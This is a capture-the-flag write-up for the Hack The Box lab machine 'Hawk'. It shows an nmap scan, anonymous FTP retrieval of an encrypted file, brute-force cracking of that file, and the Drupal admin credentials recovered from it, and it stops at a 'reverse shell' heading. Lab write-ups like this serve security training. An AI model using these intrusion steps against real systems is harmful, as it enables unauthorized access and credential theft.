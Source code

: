 # Hawk writeups by Seyptoo.

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543657344-capture-du-2018-12-01-10-41-55.png)](https://hackthebox.eu/)

Informations
----
    Ip : 10.10.10.102       Created : mrh4sh
    Level : Easy            Base Points : 30
    
Nmap Scan
----
**We have 4 open ports, 21, 22, 80 and 8082.**
The 21 is for the FTP server, 22 for the SSH server, for the 80 HTTTP server (Drupal CMS) and finally for the 8082 for the 
database.

    root@Seyptoo:~/writeup/hawk# nmap -A -sT -p 1-65535 -oA nmap/hawk 10.10.10.102 -v
    Starting Nmap 7.01 ( https://nmap.org ) at 2018-12-01 10:50 CET
    NSE: Loaded 132 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating Ping Scan at 10:50
    Scanning 10.10.10.102 [4 ports]
    Completed Ping Scan at 10:50, 0.22s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 10:50
    Completed Parallel DNS resolution of 1 host. at 10:50, 0.00s elapsed
    Initiating Connect Scan at 10:50
    Scanning 10.10.10.102 [65535 ports]
    Discovered open port 21/tcp on 10.10.10.102
    Discovered open port 22/tcp on 10.10.10.102
    Discovered open port 80/tcp on 10.10.10.102
    Discovered open port 8082/tcp on 10.10.10.102
    
Check Version
----
[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543658376-capture-du-2018-12-01-10-59-23.png)](https://hackthebox.eu)
**We can see that we have 2 HTTP 
servers and an FTP server which we can 
access anonymously.**

FTP Access and transfert
----
**We have access to the FTP server, we can see that there is a hidden file and we transfer it to our physical machine.**
The file this name .drupal.txt.enc, it is probably a password to access the CMS drupal. :)

    root@Seyptoo:~/writeup/hawk# ftp 10.10.10.102
    Connected to 10.10.10.102.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.102:root): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
    226 Directory send OK.
    ftp> cd messages
    250 Directory successfully changed.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    226 Directory send OK.
    ftp> ls -alv
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 .
    drwxr-xr-x    3 ftp      ftp          4096 Jun 16 22:14 ..
    -rw-r--r--    1 ftp      ftp           240 Jun 16 22:21 .drupal.txt.enc
    226 Directory send OK.
    ftp> mget .drupal.txt.enc
    mget .drupal.txt.enc? 
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
    226 Transfer complete.
    240 bytes received in 0.00 secs (513.9802 kB/s)
    ftp> 

Cracking file
----
Everything is encrypted, we will use a tool to crack this file.

    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc 
    U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
    CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
    QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
    t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc|base64 -d
    Salted__kY ԓi-6�l���7Z����>{�$�p����5 �2[
    ���������8?�sW�j#T$3AG�,f	���Z\ja�>>G6
    �.��E���ÐV��V@�����ɗ���4�����@�w�xZ��Ni��PtF��`)
    root@Seyptoo:~/writeup/hawk#
The file is in base64, we are going to the tools on github.

    root@Seyptoo:~/writeup/hawk# git clone https://github.com/deltaclock/go-openssl-bruteforce.git
    Clonage dans 'go-openssl-bruteforce'...
    remote: Enumerating objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Dépaquetage des objets: 100% (31/31), fait.
    Vérification de la connectivité... fait.
    root@Seyptoo:~/writeup/hawk# cd go-openssl-bruteforce/
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ls
    brute.go  openssl-brute  README.md
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ./openssl-brute -file ../drupal.txt.enc
    Bruteforcing Started
    CRACKED!! Results in file [ result-aes256 ]
    --------------------------------------------------
    Found password [ friends ] using [ aes256 ] algorithm!!
    --------------------------------------------------
    Daniel,

    Following the password for the portal:

    "PencilKeyboardScanner123"

    Please let us know when the portal is ready.

    Kind Regards,

    IT department

    --------------------------------------------------
The password has been cracked successfully, so we can connect to the CMS (drupal).

Website reverse shell
----
Try a default user, like admin and it should do the trick to connect to the CMS.
> User : **admin**<br/>
Password : **PencilKeyboardScanner123**

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543661418-capture-du-2018-12-01-11-50-07.png)](https://hackthebox.eu)
